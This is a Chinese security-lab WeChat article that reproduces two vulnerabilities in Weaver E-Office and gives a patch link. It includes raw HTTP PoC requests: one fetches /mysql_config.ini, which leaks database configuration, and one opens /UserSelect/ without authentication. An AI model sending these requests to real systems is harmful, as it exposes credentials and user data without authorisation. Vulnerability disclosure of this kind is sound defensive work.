 #  泛微E-Office信息泄露漏洞&未授权访问漏洞

原创 弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#复现 45 个

#网络安全 58 个

#漏洞 72 个

#POC 32 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![]()  
 **0x00写在前面**  
 **本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![]()  
 **0x01漏洞介绍**

Weaver E-Office是中国泛微科技（Weaver）公司的一个协同办公系统。

泛微E-Office是一款标准化的协同 OA
办公软件，泛微协同办公产品系列成员之一,实行通用化产品设计，充分贴合企业管理需求，本着简洁易用、高效智能的原则，为企业快速打造移动化、无纸化、数字化的办公平台。

![]()  
 **0x02影响版本**

Weaver E-Office

  

  

![]()  
 **0x03漏洞复现**  

1.部署漏洞环境访问

![]()

  

2.对漏洞进行复现

 **  Poc （GET）**

  *   * 

    
    
    GET /mysql_config.ini HTTP/1.1Host: 10.211.55.3:8082

 **漏洞1:信息泄露**

![]()

前端界面

![]()

         **Poc  （GET）**

  *   * 

    
    
    GET /UserSelect/ HTTP/1.1Host: 10.211.55.3:8082

 **漏洞2:未授权访问**

![]()

前端界面

![]()

  

![]()  
 **0x04修复建议**  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://service.e-office.cn/download

  

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![]()

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室

![]()

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

